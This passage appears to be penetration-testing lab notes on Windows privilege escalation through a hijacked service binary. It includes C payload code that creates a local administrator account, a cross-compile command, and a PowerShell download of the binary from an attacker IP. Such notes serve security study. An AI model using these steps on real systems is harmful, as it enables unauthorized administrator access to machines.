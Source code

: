 {% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="5. Payload" %}
{% code title="Current.c" %}
```c
#include <stdlib.h>

int main ()
{
  int i;

  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");

  return 0;
}
```
{% endcode %}
{% endtab %}

{% tab title="6. Cross-compile" %}
```bash
# cross-compile the script on the attacking machine
$ x86_64-w64-mingw32-gcc Current.c --shared -o Current.exe
```
{% endtab %}

{% tab title="7. Transfer" %}
{% code overflow="wrap" %}
```powershell
> iwr -uri http://192.168.45.235/Current.exe -OutFile 'C:\Program Files\Enterprise Apps\Current.exe'
```
{% endcode %}
{% endtab %}

{% tab title="8. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following
error: Cannot start service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceControl
   ler) [Start-Service], ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCom
   mand
```
{% endcode %}
{% endtab %}
